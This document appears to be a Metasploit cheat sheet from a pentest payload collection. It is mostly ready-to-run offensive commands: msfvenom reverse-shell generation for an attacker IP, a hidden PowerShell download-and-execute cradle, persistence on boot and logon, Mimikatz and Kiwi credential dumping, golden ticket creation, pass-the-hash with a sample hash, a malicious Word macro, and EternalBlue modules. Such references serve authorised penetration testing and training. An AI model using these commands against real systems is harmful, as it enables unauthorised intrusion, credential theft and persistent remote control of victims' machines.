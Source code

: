 # Metasploit

## Summary

* [Installation](#installation)
* [Sessions](#sessions)
* [Background handler](#background-handler)
* [Meterpreter - Basic](#meterpreter---basic)
    * [Generate a meterpreter](#generate-a-meterpreter)
    * [Meterpreter Webdelivery](#meterpreter-webdelivery)
    * [Get System](#get-system)
    * [Persistence Startup](#persistence-startup)
    * [Network Monitoring](#network-monitoring)
    * [Portforward](#portforward)
    * [Upload / Download](#upload--download)
    * [Execute from Memory](#execute-from-memory)
    * [Mimikatz](#mimikatz)
    * [Pass the Hash - PSExec](#pass-the-hash---psexec)
    * [Use SOCKS Proxy](#use-socks-proxy)
* [Scripting Metasploit](#scripting-metasploit)
* [Multiple transports](#multiple-transports)
* [Best of - Exploits](#best-of---exploits)
* [References](#references)

## Installation

```powershell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

## Sessions

```powershell
CTRL+Z   -> Session in Background
sessions -> List sessions
sessions -i session_number -> Interact with Session with id
sessions -u session_number -> Upgrade session to a meterpreter
sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false-> Upgrade session to a meterpreter

sessions -c cmd           -> Execute a command on several sessions
sessions -i 10-20 -c "id" -> Execute a command on several sessions
```

## Background handler

ExitOnSession : the handler will not exit if the meterpreter dies.

```powershell
screen -dRR
sudo msfconsole

use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false

generate -o /tmp/meterpreter.exe -f exe
to_handler

[ctrl+a] + [d]
```

## Meterpreter - Basic

### Generate a meterpreter

```powershell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery

Set up a Powershell web delivery listening on port 8080.

```powershell
use exploit/multi/script/web_delivery
set TARGET 2
set payload windows/x64/meterpreter/reverse_http
set LHOST 10.0.0.1
set LPORT 4444
run
```

```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```

### Get System

```powershell
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Persistence Startup

```powershell
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back

meterpreter > run persistence -U -p 4242
```

### Network Monitoring

```powershell
# list interfaces
run packetrecorder -li

# record interface n°1
run packetrecorder -i 1
```

### Portforward

```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

### Upload / Download

```powershell
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
```

### Execute from Memory

```powershell
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

### Mimikatz

```powershell
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```powershell
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

### Pass the Hash - PSExec

```powershell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
SMBDomain             WORKGROUP                                                          no        The Windows domain to use for authentication
SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        The password for the specified username
SMBUser               Lambda                                                             no        The username to authenticate as
```

### Use SOCKS Proxy

```powershell
setg Proxies socks4:127.0.0.1:1080
```

## Scripting Metasploit

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`.
Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```powershell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 4646
set ExitOnSession false
exploit -j -z


use exploit/multi/fileformat/office_word_macro 
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

## Multiple transports

```powershell
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

Then, in AddTransports.ps1

```powershell
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

## Best of - Exploits

* MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
* MS08_67 - `exploit/windows/smb/ms08_067_netapi`

## References

* [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
* [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)
